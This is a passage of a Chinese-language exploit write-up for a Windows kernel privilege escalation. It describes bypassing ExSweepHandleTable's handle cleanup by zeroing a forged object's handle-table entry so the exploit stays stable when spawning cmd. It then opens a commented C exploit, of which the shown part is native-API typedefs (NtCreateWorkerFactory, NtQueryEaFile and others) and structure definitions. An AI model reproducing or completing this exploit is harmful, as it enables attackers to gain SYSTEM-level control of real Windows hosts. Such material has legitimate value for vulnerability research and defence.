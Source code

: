    
  
逆向分析一下ExSweepHandleTable，发现当进程的ObjectTable为0则不清理句柄，但是创建cmd进程时，需要用到句柄表（蓝）。  
  
   
  
经过继续深入分析，确定了清理句柄的流程，已经在EXP中加上了，方法有很多，为了稳定，把伪造对象的句柄对应的object地址清0，即可绕过清理对象的步骤（Vsbat大佬的文章中分析结果并不对，但是因为遇到NULL就会结束清理句柄，所以也可以绕过）。  
  
   
  
ObjectTbale + Handle*2位置的内容置为0即可。  
  
## C的EXP（带注释）  
```
#include <stdio.h>
#include <windows.h>
 
#pragma comment(lib,"Ws2_32.lib")
 
#define NT_SUCCESS(Status) (((NTSTATUS)(Status)) >= 0)
#define STATUS_INFO_LENGTH_MISMATCH  ((NTSTATUS)0xC0000004L)
 
typedef NTSTATUS(__stdcall* __NtCreateWorkerFactory)(PHANDLE, ACCESS_MASK, PVOID, HANDLE, HANDLE, PVOID, PVOID, ULONG, SIZE_T, SIZE_T);
typedef NTSTATUS(__stdcall* __NtQueryEaFile)(HANDLE, PVOID, PVOID, ULONG, BOOLEAN, PVOID, ULONG, PULONG, BOOLEAN);
typedef NTSTATUS(__stdcall* __NtQuerySystemInformation)(ULONG, PVOID, ULONG, PULONG);
typedef NTSTATUS(__stdcall* __NtSetInformationWorkerFactory)(HANDLE, ULONG, PVOID, ULONG);
typedef NTSTATUS(__stdcall* __NtQueryIntervalProfile)(DWORD, PULONG);
typedef NTSTATUS(__stdcall* __PsLookupProcessByProcessId)(DWORD, LPVOID*);
typedef NTSTATUS(__stdcall* __NtQueryInformationWorkerFactory)(HANDLE, LONG, PVOID, ULONG, PULONG);
 
 
typedef struct _SYSTEM_MODULE_INFORMATION_ENTRY {
    HANDLE Section;
    PVOID  MappedBase;
    PVOID  Base;
    ULONG  Size;
    ULONG  Flags;
    USHORT LoadOrderIndex;
    USHORT InitOrderIndex;
    USHORT LoadCount;
    USHORT OffsetToFileName;
    CHAR   ImageName[256];
} SYSTEM_MODULE_INFORMATION_ENTRY, * PSYSTEM_MODULE_INFORMATION_ENTRY;
 
typedef struct _SYSTEM_MODULE_INFORMATION {
    ULONG Count;
    SYSTEM_MODULE_INFORMATION_ENTRY Module[1];
} SYSTEM_MODULE_INFORMATION, * PSYSTEM_MODULE_INFORMATION;
 
typedef struct _IO_STATUS_BLOCK {
    union {
        NTSTATUS Status;
        PVOID    Pointer;
    };
    ULONG_PTR Information;
} IO_STATUS_BLOCK, * PIO_STATUS_BLOCK;
 
 
__NtCreateWorkerFactory                MyNtCreateWorkerFactory = NULL;
__NtQueryEaFile                        MyNtQueryEaFile = NULL;
__NtQuerySystemInformation            MyNtQuerySystemInformation = NULL;
__NtSetInformationWorkerFactory        MyNtSetInformationWorkerFactory = NULL;
__NtQueryIntervalProfile            MyNtQueryIntervalProfile = NULL;
__PsLookupProcessByProcessId        MyPsLookupProcessByProcessId = NULL;
```